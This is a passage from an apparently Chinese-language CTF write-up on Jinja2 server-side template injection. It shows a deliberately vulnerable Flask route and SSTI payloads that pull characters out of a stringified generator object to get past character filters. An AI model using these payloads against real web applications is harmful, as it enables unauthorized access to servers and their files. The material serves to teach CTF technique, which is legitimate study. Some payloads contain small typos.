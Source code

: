 ```python
        name = request.args.get('name')
    else:
        name = 'wendell'
    template = '''

    <div class="center-content">
        <p>Hello, %s</p>
    </div>
    <!--flag in /flag-->
    <!--python3.8-->
''' % (name)
    return render_template_string(template)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000)
```

在存在ssti的地方执行如下payload：

```python
{% set org = ({ }|select()|string()) %}{{org}}
# 或 {% set org = ({ }|select|string) %}{{org}}
```

得到了一段字符串：`<generator object select_or_reject at 0x7f06771f4150>`

这段字符串中不仅存在字符，还存在空格、下划线，尖号和数字。也就是说，如果题目过滤了这些字符的话，我们便可以在 `<generator object select_or_reject at 0x7f06771f4150>` 这个字符串中取到我们想要的字符，从而绕过过滤。

再使用`list()`过滤器将字符串转化为列表：

```php
{% set orglst = ({ }|select|string|list) %}{{orglst}
```

返回列表中是 

```
['<', 'g', 'e', 'n', 'e', 'r', 'a', 't', 'o', 'r', ' ', 'o', 'b', 'j', 'e', 'c', 't', ' ', 's', 'e', 'l', 'e', 'c', 't', '_', 'o', 'r', '_', 'r', 'e', 'j', 'e', 'c', 't', ' ', 'a
', 't', ' ', '0', 'x', '7', 'f', '0', '6', '7', '7', '1', 'f', '4', '1', '5', '0', '>']                
```

 使用pop()等方法将列表里的字符取出来。如下所示，取一个下划线 `_`：

```python
{% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}}    # _
```

同理还能取到更多的字符：

```python
{% set space = (({ }|select|string|list).pop(10)|string) %}{{spa}}    # 空格
{% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}}    # _
{% set zero = (({ }|select|string|list).pop(38)|int) %}{{zero}}    # 0
{% set seven = (({ }|select|string|list).pop(40)|int) %}{{seven}}    # 7
......
```
